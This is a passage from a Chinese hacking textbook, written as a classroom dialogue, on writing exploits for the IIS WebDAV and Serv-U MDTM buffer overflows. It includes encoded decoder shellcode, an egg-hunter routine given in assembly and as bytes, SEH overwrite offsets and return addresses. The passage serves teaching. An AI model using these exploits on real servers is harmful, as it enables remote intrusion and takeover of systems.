xxx
```

“在拷贝中没有作边界检查？所以溢出？”同学们问道。

“不，在拷贝前是作了检查的！而且很严格，用变量 Length 保存长度，如果 Length 超过了 8，那就不作拷贝！”

“哦？那怎么引发溢出的呢？”

“呵呵，这就是此漏洞的第一个奇妙之处。虽然程序先计算出长度，保存在 Length 中，但 Length 是无符号短整数类型，只能存 65535。但是，我们的‘buffer’可以超过 65535 的限制，那 Length 就无法容纳，就会溢出。例如当路径长度是 65536，那么，Length 就变成 0 了，拷贝前的判断就为真，从而可以拷贝了。在拷贝时，‘buffer’实际是 65536 那么长，当然溢出了！”

“哦！的确很奇妙啊！”

“这个溢出从本质上说是一个短整型数溢出，而后导致了堆栈溢出。这一点是值得研究的。”

“嗯！”大家都点点头。

“好，我们继续。Bufer 超过 65535 时就会溢出，拷贝时就会引发异常。我们用覆盖异常处理点的方法，用经典三步骤写出 Exploit 的雏形吧！”

“第一步：异常处理点的位置。在 Buffer 第 266 的位置左右，这里要注意，是左右哦！”

“第二步：ShellCode。现在可以用现成的，也可以用我们自己写的。就加个帐户吧！”

“第三步：Jmp /call ebx 的地址——先用 0x7FFA1571 试试。”

“等一下，”古风急了，“为什么在 266 位置左右呢？不能精确吗？”

“这就是此漏洞的第二个奇妙之处。刚才说过，IIS 会把‘buffer’加上几个字节的路径后作拷贝。但那个路径会因为机器不同、安装目录不同而引发长度不一样，所以不能统一。比如，我的 IIS 安装在 C:\inetpub\wwwroot 下，那 Buffer 要长度正好是 269 才能到达异常处理点。”

“真是越来越麻烦了！”

“的确，但这都是小问题，实际中改变长度多试几次就可以了。真正的考验还在后面呢！”

“哇！”大家都吓住了。

“大家要获得技术的突破，一定要有耐心和毅力，不要怕，我们继续！”

“不用担心，大家一定可以解决的！”老师努力给大家打气。

“嗯！我们一定要把它解决！”大家都气势如宏，“我们写出 Exploit 的初步构造吧！如图 5－15。”



“但应该没这么简单，还有其他玄机吧？”同学们都望着老师。

“呵呵！不急，我们一步步的来。回想一下以前讲的 IDA/IDQ 漏洞，我们作了什么处理？”

“对哈！IIS 会作变换成宽字节的处理！”同学们叫了起来，“我们应该加上‘%u’防止被扩展变化！”

“我们先把 JMP 04、JMP EBX 地址和 ShellCode 都加上‘%u’试试。”

“好哩！”古风把‘%u’加了上去，这是他的强项！

“OK，运行一下试试！”

编译、执行，毫无反应。

“果然没那么简单。”古风自言自语道。

“嗯，这个漏洞和 IDA/IDQ 不同，IDA/IDQ 发现‘%u’标志后，就不对后面的字节进行 Unicode 转换；而 Webdav 是‘%u’也要作 Unicode 转换，但过后要转换回单字节。”

“小于 0x80 单字节字符转换时会被转换成‘\xXX\x00’的形式，然后又被转换回‘XX’，可以不变；但大于 0x80 的，系统会认为后面还有一个字节的字符，与这个字符一起组成一个完整宽‘字符’来作转换。比如，‘\x61\x81\x81’会被转换为‘\x61\x00\xXX\xXX’；如果不合编码规范，转回来时，就变成‘\x61\xXX\xXX’，而不是原来的\x61\x81\x81’了。”

“所以问题就在于转换。小于 0x80 的会符合要求；但大于 0x80、不符合编码范围的就会被替换掉！转换完毕后，当然就不是我们想要的字符串啦！”

“哇！这样啊！”

“这就是该漏洞的第三个奇妙之处。大家想想怎么办？”老师又开始让同学们开动脑筋了。

“如果不符合编码范围，会被改变；那我们把 JMP 04，JMP EBX 的地址和 Shellcode 都使用符合编码范围的字符吧！”宇强思考后说。

“嗯！很好！思路就是这样，我们使用符合编码范围的字符。这样，‘\xXX’在转换成宽字节后，就变为‘\xXX\x00’了；再被转换回来，就又成了‘\xXX’，不会被改变。”

“但大家想想，JMP 04，JMP EBX 的地址符合规范比较容易，Shellcode 也可用前面的方法（比如替换法）进行编码，但要 decode 全部都符合编码要求实在是太困难了。”

“难啊！难于上青天啊！”大家感叹道，“那怎么办啊？”

“这里，我给大家再介绍一位前辈级的人物——yuange！他提出的解决办法如下：”

1.把 real shellcode 编码成小于 0x80 的字符。这样，在经过转换后就成为‘\xXX\x00’了，字符不会被改变。

2.再精心编写一段符合编码范围的代码，用这些代码来解码上述经过编码的 real shellcode！

“哦？”

“yange 提出的具体算法就是：编码时把 shellcode 的字符 0xXY 变成 0x0X 和 0x0Y，这样一定可以符合小于 0x80 要求；而在解码中，用 0xa*0x10+0xb=0xab 的算法来恢复。”

“而解码的代码是 yuange 精心打造的，全部符合简体中文编码范围要求的 CPU 指令。大家看看吧！”

```
　　"%u5390%u665e%u66ad%u993d%u7560%u56f8%u5656%u665f"
　　"%u66ad%u4e3d%u7400%u9023%u612c%u5090%u6659%u90ad"
　　"%u612c%u548d%u7088%u548d%u908a%u548d%u708a%u548d"
　　"%u908a%u5852%u74aa%u75d8%u90d6%u5058%u5050%u90c3"
　　"%u6099";
```

“哇！太强了！”大家都面带钦佩之色。

“是啊，yuange 这样的人才算得上真正的黑客啊！技术高超，而且无私共享。”

“嗯！向 yuange 学习！向 yuange 致敬！”大家发出由衷的呐喊。

老师笑道：“下面我们把 Exploit 完成吧！我们先把 ShellCode 用 yuange 的算法进行编码，实现的算法就是：”

```
unsigned char ShellCode[] = 
    "\x81\xF4\xE2";
unsigned char enShellCode[200];
int main()
{
    int i,nLen;
    unsigned char temp;
    nLen = sizeof(ShellCode)-1; //ShellCode 长度
    for(i=0;i<nLen;i++)
    {
        temp=ShellCode[i];
        enShellCode[2*i] = temp/0x10;
        enShellCode[2*i+1] = temp%0x10; //把 0xab 拆分为 0xa、0xb 并保存 
    }
}
```

“把 ShellCode 编码成符合要求的 EnShellcode 后；在 EnShellCode 前放上解码代码 DeCode，功能是把 EnShellCode 解码还原成真正的 ShellCode，并跳过去执行！格式如图 5－16！”



“注意，我们还要把 JMP EBX 地址用符合规范的 0x695c6772 代替，JMP 04 用 0x58685159 来代替！这样就全部符合编码的规范了！”

“哇！还真不容易。”大家擦擦汗。

“呵呵！这是写溢出时常用的技巧。我们看看成果吧！”

编译、执行！成功了！

“哦！”大家都欢呼了起来，经过无数的困难下取得的成功是最甜美的。

“看来大家都很有兴趣，那我们继续向困难挑战，讨论更困难情况下的处理办法——内存搜索法。”

# 5.6 内存搜索法

## 5.6 内存搜索法

“我们掌握了这么多种编码方法，可以避免很多刁钻的字符限制了，为什么我们还要学习内存搜索法呢？”玉波又问道。

“学无止境，学海无涯！”老师简单的回了一句。

“但更重要的是，上面讲的那些方法都只是考虑如何在 ShellCode 中避开一定的特殊字符；但现实中有一些漏洞远远没那么简单。”

# 5.6.1 搜索的原因——长度限制

### 5.6.1 搜索的原因——长度限制

老师说：“比如一些漏洞，对 ShellCode 的长度也有一定的限制。”

“长度也有限制？啊？”大家都懵了，“像拆分法那样变换肯定行不通了，越拆越长！”

“对！这就是真正麻烦的地方。”老师说道，“遇到长度有限制的漏洞时一般有两种解决思路。”

“一种方法是找比较短的 ShellCode，但可能比较困难，功能也有限；”老师说道，“另一种方法就是：只做一个短的搜索 ShellCode 的代码，真正的 ShellCode 放在内存的其他地方，这是我们着重讲的部分。”

“哦？”

“溢出后直接运行的是搜索 ShellCode 的代码，其功能是在内存中查找真正的 ShellCode，查找到后就跳过去执行。”

“因为搜索代码一般可以很短，所以能满足长度限制的要求。”

“搜索代码？”同学们觉得又有新知识可学了，“如何完成搜索的呢？”

“一般说来，搜索从某个接近 ShellCode 的地址开始，依次查找，当找到某个预定标志的时候，就说明找到了我们的 ShellCode。”

# 5.6.2 搜索的原理——查找标志

### 5.6.2 搜索的原理——查找标志

“我们用图来理解一下。在内存中，‘A’表示垃圾字符；‘Ret’表示 JMP ESP 或者 JMP 04 Call EBX，反正功能是要跳转到后面的 Search 中；然后‘F’为标志，最后是‘ShellCode’。Search 功能就是要进入到原来的 ShellCode 中，原始的发送和目标程序处理截断后的数据如图 5－17。”



“在图 5－17 中，‘A’和‘A’’无所谓，只是起填充作用；‘Ret’和‘Search’一定要符合规范，不能被改变；‘F’和‘F’’一定要不一样，如果一样，就无法区分原始 ShellCode 和截断后的数据位置；而‘ShellCode’和‘ShellCode’’是不一样的，如果一样，我们就不用花这么大的力气去写一个符合规范的 Search 和跳转了。”

“好，我们看看 Search 的代码该如何写。假设标志‘F’为 ww08，即 0x773037，而且从 esp 开始搜索，则搜索的汇编代码如下：”

```
__asm
{
    mov ebx, esp //从 esp 开始搜索
    mov eax, 0x77773037; //eax = ww07
    inc eax //刚才是 ww07，加 1 变成 ww08，免得搜索成自己
    loop1:
    inc ebx 
    cmp [ebx],eax //比较是否是 ww08
    jne loop1
    inc ebx
    inc ebx
    inc ebx
    inc ebx
    call ebx //找到 ww08 标志，跳过去执行
}
```

“大家注意啊！先是把 eax 赋成 ww07，然后 eax 加 1，才得到 ww08。这是为了避免搜索成 search 代码自己。”

“是啊！如果是直接 mov eax, 0x77773038 ，搜索经过这里会被认为是标志的！”宇强说道。

“非常正确！我们清楚原理了，来看一个实际的漏洞吧——Serv_U 的 MDTM 漏洞。”

# 5.7 搜索实例——Serv_U 漏洞的利用

## 5.7 搜索实例——Serv_U 漏洞的利用

“Serv_U 是常见的 Windows 下架设 FTP 服务的软件，非常好用，功能也很强大。”老师说，“很多的电影、音乐服务器都是用 Serv_U 来架设的。”

“哦？它有漏洞可以利用吗？”台下流出了一瘫瘫的口水。

“当然有！不然我就没有讲的了，失业啦！”

台下全倒……

# 5.7.1 利用 Ollydbg 定位溢出点

### 5.7.1 利用 Ollydbg 定位溢出点

“首先，我们还是看看漏洞的公告和原因，如图 5－18。”老师说道。



“漏洞公告上说 Serv_U 在处理 MDTM 命令时有溢出漏洞，MDTM 是什么命令啊？”同学们问道。

“Serv_U 是 FTP 的服务器，当然遵守 FTP 协议的规范，但也有自己的一些独特命令和功能。”

“任何 FTP 服务器都是这样的。而 MDTM 命令是关于文件时间的命令，它可查看文件的时间，如 MDTM /ww0830.txt ，也可修改文件的时间，如 quote mdtm 20020102112233+123 /ww0830.txt 。”

“当用 MDTM 命令修改文件的时间时，如果参数过长，就会引发标准的堆栈溢出！”

“我们先来引发一下这个漏洞，我们登陆 Serv_U 的服务器，先输入用户名和密码，注意，该漏洞没有权限的帐号都可以利用。这里是用匿名登陆的。”

“然后输入 MDTM 命令和超长参数，敲回车，如果对方有漏洞，服务器就会挂掉。如图 5－19。”



“果然服务挂了啊！真想不到，看起来不起眼的参数小漏洞，都有可能造成系统被攻破啊！”台下说道。

“千里之堤，毁于蚁巢，就是这个道理。”老师接着说，“我们来利用它吧！首先是定位溢出点。”

“但这里没有弹出出错对话框啊！怎么用对话框的方法定位呢？”

小知识：Ollydbg

OllyDbg 是一个 32 位汇编级的直观分析调试器。是个非常好的动态跟踪调试工具，和 TRW、SOFTICE 相比，没有工作在核心态，可边调试边进行其他应用程序工作，比如听歌、查资料。界面非常人性化，调试方便，可以随意加注释、复制、跟踪堆栈的变化。还有强大的右键功能，使用起来特别方便。

“对于这种漏洞，我们就要用调试利器 Ollydbg 了（光盘有收录）！”老师说道，“重新启动 Serv_U，运行 Ollydbg，并附加到 Serv_U 的进程。方法是在 Ollydbg 的‘File’菜单下选中‘Attach’，如图 5－20。”

　　

“然后在弹出的进程对话框中选中‘ServUDaemon’，并点中‘Attach’。这样，Ollydbg 就加载了 Serv_U 进程，如图 5－21。”

　　

“加载后 Serv_U 会被暂停，我们按 F9 让 Serv_U 继续运行起来。”老师一步步的演示起来。

“好，我们再登陆，输入 MDTM 命令和超长的参数。Serv_U 又挂掉了，但 Ollydbg 截获了出现的异常，在状态栏上显示了 Access violation when reading [34343435] ，如图 5－22。”

　　

“哦！是 0x34343435 地址不可读！”大家说道。

“对，0x34343435 是我们输入的过长参数。它把 Serv_U 程序要用的变量覆盖了，当然会有异常了。”

“哦？引发了异常？莫非我们用覆盖溢出处理点的方法利用？”宇强问道。

“是啊！”老师说道，“更进一步，我们用 Ollybug 定位异常处理点吧！按 Shift+F9 进入异常处理，嗯？又报错了，[34343434]不能执行。如图 5－23。”

　　

“哦！0x34 就是十进制的 4，也是我们输入的参数，”同学们说道，“看来我们可以控制这里要执行的 0x34343434 哦！”

“对！其实这里的 0x34343434 就是异常处理入口点。”老师说道。

“哦？那 ebx 应该是指向它前方的数了？”大家想起前面讲过的覆盖异常处理点的方法，如图 5－24。

　　

“异常处理程序的入口是 0x34343434，那么 ebx 应该是指向 0x33333333？”宇强说了这句话后，大家仔细看了看 Ollydbg 的寄存器窗口。

“啊？ebx 怎么是 0 啊？”大家都很吃惊，“这怎么定位啊?”

“在 Windows 2000 下作异常处理时，ebx 的确是在异常处理程序入口的前方；”老师说道，“但在 XP 下，ebx 会变为 0，我们就要用另一种方法定位了。”

# 5.7.2 XP 下 SEH 的利用

### 5.7.2 XP 下 SEH 的利用

“好，我们看看，本来 ebx 应该指向 0x33333333，我们 CALL EBX 就可跳到 0x33333333 那句指令。但在 XP 下这招不行，要用另一种方法了。”

“哦？什么方法呢？”

“呵呵，系统总要知道指向下一个异常处理点的位置嘛！大家仔细找找看，寄存器或寄存器内存附近有什么指令指向 0x33333333？”

大家仔细的找了起来。

“哦！esp＋8 的值为 0x0101D2DC，而 0x0101D2DC 存的正好是我们的 0x33333333，如图 5－25。” 眼尖的小倩说道。



“是啊！”其他人也欢呼道，“原来是堆栈中存着地址啊，而且是栈顶＋8 的地方。那 XP 下可以用这个地方来定位了！”

“是的！这就是 XP 下利用异常处理点的方法。”老师说道，“我们把 CALL EBX 指令的地址改成 pop pop ret 指令的地址；当执行 pop pop ret 后，就会到异常处理点程序入口点前方的位置，我们把那儿覆盖成 JMP 04，就可跳到后面的 ShellCode 了。如图 5－26。”

　　

“好了，无用字符应该填充多少个呢？”老师问道。

“刚才我们定位时，输入的参数是 11112222 到 0000 的不断循环，Ollydby 里显示的出错位置是第二个 3333 和 4444，所以我们可以算出 12×4＝48，加号要占一个字符，所以应该是 MDTM 命令加号后再填充 47 个字符到达异常处理点。”宇强分析道。

“漂亮！Perfect！”老师表扬道，我们利用的示意图就应该如图 5－27。”



“pop pop ret 指令在 Windows 下通用的地址是 0x7FFA1571；JMP 04 的指令是 EB 04。”老师最后说道，“ShellCode 我们就随便使用一个现成的，或我们自己写的就行，所以，具体构造应该如图 5－28。”



“好啊！我们快试试吧！”同学们急切的说，“先填充字符，再 JMP 04，然后是 0x7FFA1571，最后是我们的 ShellCode，就开一个远程端口吧！运行！”

过了一会玉波说道：“哎哟，Serv_U 是挂掉了，但端口没有开起来。”

“啊？这是怎么回事呢？”大家不解的问，“就是按照要求构造的啊？”

“呵呵！那是因为我们的 ShellCode 太长，被截断了！”

# 5.7.3 跨过长度限制——搜索

### 5.7.3 跨过长度限制——搜索

“这个漏洞和以往的那些漏洞不同的地方在时区里，有长度的限制，超过了 294 字节就会被截断，当然完不成我们想要的功能了。” 老师对着台下的同学们说。

“哦？294 个字节？太短了吧？”

“是啊，我们写的 ShellCode 都要有 1000 字节！”

“那怎么办呢？”大家想啊想，“可以换一个短的，但 294 个字节也太短了。”

“莫非？放入我们的搜索代码？”宇强说。

“对！我们在有长度限制的时区中放入我们短小的搜索代码，而把 ShellCode 放在后面的那个文件名中！”

“我们获得控制权后就先执行搜索代码，它在内存中搜索 ww08 标志，搜索到后，才跳过去执行真正的 ShellCode。”大家明白了。

“非常正确，其利用格式如图 5－29。”

　　

“而第一部分时区放入我们的搜索 ShellCode，功能只是在内存中找标志，找到后跳过去执行。其构造如图 5－30。”

　　

“第二部分文件名放入查找标志和真正的 ShellCode，其构造如图 5－31。”



“我们就按照这样的思路来利用吧！搜索 ww08 标志的汇编前面讲过，如下：”

```
__asm
{
　　 mov ebx, esp //从 esp 开始搜索
　　 mov eax, 0x77773037; //eax = ww07
　　 inc eax //刚才是 ww07，加 1 变成 ww08，免得搜索成自己
　　loop1:
　　 inc ebx 
　　 cmp [ebx],eax //比较是否为 ww08
　　 jne loop1
　　 inc ebx
　　 inc ebx
　　 inc ebx
　　 inc ebx
　　 call ebx //找到 ww08 标志，跳过去执行
}
```

“在 VC 中嵌入汇编，然后调试提取，得到搜索代码的 ShellCode。”

```
char search[] =
　　"\x8B\xDC\xB8\x37\x30\x77\x77\x40\x43\x39\x03\x75\xFB\x43\x43\x43"
　　"\x43\xFF\xD3"
```

“够短吧！我们把原来构造程序的 ShellCode 换成这个搜索 ShellCode 的 search。”

“然后在真正 ShellCode 的前方加入我们的标志‘ww08’，放在空格后的文件名第二部分，这样就完成了我们的构造，得到了程序 ServUtest.cpp（光盘有收录）。”

“好咧！我们测试一下吧！”同学们急切的说，“我们把精心构造的代码发送过去，对方 ServU 挂掉，但成功执行了我们的 ShellCode，打开了端口，如图 5－32。”

　　

“telnet 对方的 8111 端口，成功的登陆上了对方！”同学们高兴的说道。

“好，到这里，我们稍微总结一下，温故而知新嘛！”老师说道，“一般的 ShellCode 都由两部分构成，前面一段是 DecodeCode，后面一段是编码后的 ShellCode。”

“第一段的存在是因为第二段如果不经过编码，可能含有大量的 0x00，从而导致在字符串处理时被截断。而编码的方法就是我们今天着重介绍的内容。”

“还有些时候，溢出会对长度有限制，这时要么找一个较短的 ShellCode 完成功能，要么避开长度的限制，做一个简单的搜索代码，而把真正的 ShellCode 放到其他地方，就像刚才的 MDTM 漏洞一样。”

大家在台下认真的记着笔记。

“呵呵！好了，”老师说道，“下午有微软研究院的学术活动——计算与你同行，现在就下课吧！大家早点吃饭，去见见高手吧！”

# 5.8 “计算与你同行”—— Computing & Society

## 5.8 “计算与你同行”—— Computing & Society

宇强日记之四：

11 月 11 日 晴

今天有幸参加了微软亚洲研究院举办的“计算与你同行”大型学术研讨会。见识了一个个高手，充分认识到了自己的差距。

吃过午饭，我和古风、玉波、小倩一行去乘车地点——体育馆。因为会场在电子科大，主办方为了方便各校的参与，派出了专车进行接送。好多人啊！虽然有几十辆大 BUS，但我们登上车时，已经没有位置了，看来微软的吸引力就是大啊！

不一会儿，车队就出发了。奇怪的是，本来可从一环路直接到目的地，结果先从西门出发，绕到东门，又绕回西门，然后走二环路！当终于进入科大校门时，我们都非常疲惫了，特别是小倩，脸都青了，好心痛啊……

不过天气还算清朗，微风习习，周全的组织和热情的欢迎将我们的倦怠一扫而光，转而是热切的期待。

开幕式过后，令人振奋的演讲开始。首先是 Rick Rashid 和 Chuck Thacker 的“插上计算的翅膀”和“21 世纪的计算机”。虽然他们讲得很慢，但还是只能借助同声翻译器才能完全明白意义，我深深感到：“要想取得成绩，英语一定要打好基础！这样才能无障碍的阅读世界上最先进的科技文献，与世界科技的发展作无缝连接！”

接下来是亚洲微软研究院的院长和前院长的演讲。

现任院长沈向洋，13 岁就进入大学，30 岁成为亚洲微软研究院的院长！

而前院长张亚勤，12 岁就读大学，38 岁成为 IEEE 百年历史以来最年轻的院士！

自古英雄出少年！

当沈向洋展示数字笔时，大家都情不自禁的鼓起掌来。

而我在想：随着时间的推移，我和他们取得成就的年龄会越来越短，当有一天我到他们那个年龄时，会有什么成绩？又会是一个什么样的人呢？

但我不会以他们为目标来奋斗，如果那样，那最多能到达他们的水平就不错，而且多半不能达到。

我要不断与自己竞争，努力超越自我，这样才能在自身水平上取得不断进步！

回来的路上，我不禁感概万千！小学 6 年真的浪费了不少时间啊！感觉上 1 年就够了，

古风也说道：“是啊，不过我觉得初中更浪费时间。”

玉波也说：“唉！就是啊，我觉得小学、中学、大学都是浪费时间啊，如果我 8 岁就下海，去倒卖馒头，现在都是亿万富翁了。”

大家都笑了起来。

也许天赋是与生俱来的，机遇更是不能强求。但我应该潜心打好基础，随时做好准备，才能在机会到来之时，拥有把握住机会的实力！

车不需要知道自已未来的路通到哪里去，驾驶员知道。但世界上会有人知道自己人生的路会通向哪里吗？

所以我能做的，就是把握住每一个机会！

# 课后解惑

## 课后解惑

Q：ShellCode 中的 0x00 为什么要去掉？

A：论坛上见过多次的经典问题，已经作了详细讲解。这里再说一遍，在 C 语言中，字符串是以 0x00 为结束标志，所以如果目标程序是以 strcpy 等函数来作字符串拷贝导致溢出的，则到达 ShellCode 中的 0x00 时，就会认为是字符串结束，从而停止拷贝，导致 ShellCode 被截断，完不成想要的功能。

Q：为什么有“0x000x98”这样的 ShellCode 存在呢？

A：那是 Unicode，Unicode 是两个字节表示一个字符。

Q：文本中的 0 和 16 进制中的 0x00 有什么区别呢？

A：当然不一样了，0x00 就是 16 进制的 0x00；而文本中的 0 对应的 16 进制是 0x30。有个方法可以帮助大家理解，0x00 是不可见的字符，在文本文件里是看不可见的；而文本中的 0，当然是可见的，所以自然和不可见的 0x00 有区别了。

Q：怎么去掉 ShellCode 中的 0x00 呢？

A：我已经详细讲解过了。总体思路就用编码方法，将原 ShellCode 变成 enShellCode；然后把解码代码放在 enShellCode 前面；如果还有特殊字符，就需要再进行微调。

Q：发现直接替换法是把小于 0x1F 的字符都作了替换处理；但 decode 本身还有小于 0x1F 的字符呢？

A：这是故意留给大家的一个小问题！分析一下 decode 代码里会出现小于 0x1F 字符的原因吧，然后想办法避开它们（提示：微调法）。

Q：除了课上讲的几种编码变换方法，还有其他的方法吗？

